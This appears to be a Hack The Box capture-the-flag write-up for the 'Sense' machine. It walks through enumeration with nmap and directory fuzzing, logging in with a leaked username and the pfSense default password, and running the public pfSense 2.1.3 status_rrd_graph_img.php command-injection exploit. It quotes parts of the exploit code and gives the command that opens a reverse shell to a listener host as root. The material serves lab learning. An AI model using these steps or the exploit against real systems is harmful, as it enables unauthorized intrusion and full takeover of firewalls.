

# Sense

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Easy |
| **Topics** | Pfsense 2.1.3, Web File Extension Enumeration, FreeBSD 8.3 |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

### SYN Scan

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.60 -oN AllPorts
```



### Full Scan

```bash
nmap -p 80,443 -sCV -Pn -n 10.10.10.60 -oN FullScan
```

```bash
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
```

### Nmap Web Scan

```bash
nmap -p 443 --script "http-enum*" -Pn -n 10.10.10.60 -oN WebNmapScan
```

```bash
PORT    STATE SERVICE
443/tcp open  https
| http-enum: 
|   /javascript/sorttable.js: Secunia NSI
|   /changelog.txt: Interesting, a changelog.
|_  /tree/: Potentially interesting folder
```

### Wfuzz Scan

```bash
wfuzz -c -t 200 --hc=404 -f wfuzz-scan-443,raw -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ
```

```bash
Target: https://10.10.10.60/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000113:   301        0 L      0 W        0 Ch        "themes"                                                    
000000536:   301        0 L      0 W        0 Ch        "css"                                                       
000000624:   301        0 L      0 W        0 Ch        "includes"                                                  
000001059:   301        0 L      0 W        0 Ch        "javascript"                                                
000001414:   301        0 L      0 W        0 Ch        "classes"                                                   
000001790:   301        0 L      0 W        0 Ch        "widgets"                                                   
000003583:   301        0 L      0 W        0 Ch        "tree"                                                      
000005774:   301        0 L      0 W        0 Ch        "shortcuts"                                                 
000008043:   301        0 L      0 W        0 Ch        "installer"                                                 
000009454:   301        0 L      0 W        0 Ch        "wizards"                                                   
000045226:   200        173 L    425 W      6690 Ch     "https://10.10.10.60/"                                      
000065264:   301        0 L      0 W        0 Ch        "csrf"                                                      
000134671:   301        0 L      0 W        0 Ch        "filebrowser"                                               
```

After manual validation, here are the only valid paths:

```bash
https://10.10.10.60/index.html
https://10.10.10.60/index.php
https://10.10.10.60/installer/installer.php/
https://10.10.10.60/tree/
```

### Login Page - PfSense


Checking exploits on `searchsploit` for pfSense we can see that there are some interesting ones, but these seem to require us to be authenticated on the host.

After Googling some default credentials (found admin/pfsense) I tried some simple combinations of usernames and passwords but none of them worked.

### Dirbuster Enumeration

Proceed to enumerate with file extensions using dirbuster. Note that I added the extension <`.txt`> as I found a file txt previously, so, it’s possible that there could be more txt files.


Alternative: Use gobuster

```bash
gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -k -t 50 
```

After some minutes we will be able to see some files extensions with response code 200, one potentially interesting is <`system-users.txt`>.


Then, after checking the content of the file we will see a username:

```bash
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

This may be a valid username. Let's try it with the default password for PFSense which is <`pfsense`>.

So, the login credentials will be like this: (`rohit:pfsense`). 


Bingo, we got authenticated:


# Initial Access

After getting access to the pfsense console, we will see the version of the pfsense and also the version of the OS.

```bash
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```

Now, let’s search for specific exploits for the actual version of pfsens:

```bash
searchsploit pfsense 2.1.3
```

We will see one specific exploit that works perfectly for us:

```bash
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
```

Let’s inspect the code: (Important extracts)

```python
#pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
#This script will return a reverse shell on specified listener address and port.
#Ensure you have started a listener to catch the shell before running!

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
```

Based on the exploit code, we need to pass as arguments, the Remote IP, listener IP, listener Port, Username and Password for the authentication. Fortunately we have all the required paramenters, so this exploit works for us.

Download the exploit and check the order of the parameters:

```python
Kali# python3 43560.py --help

usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME] [--password PASSWORD]

options:
  -h, --help           show this help message and exit
  --rhost RHOST        Remote Host
  --lhost LHOST        Local Host listener
  --lport LPORT        Local Port listener
  --username USERNAME  pfsense Username
  --password PASSWORD  pfsense Password
```

Let’s execute it :

```bash
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.16.3 --lport 443 --username rohit --password pfsense
```

Result:


Finally, we got a reverse shell as root. 

# Privilege Escalation

Non-required - after the initial access gaves root access. 

[Owned Sense from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/111)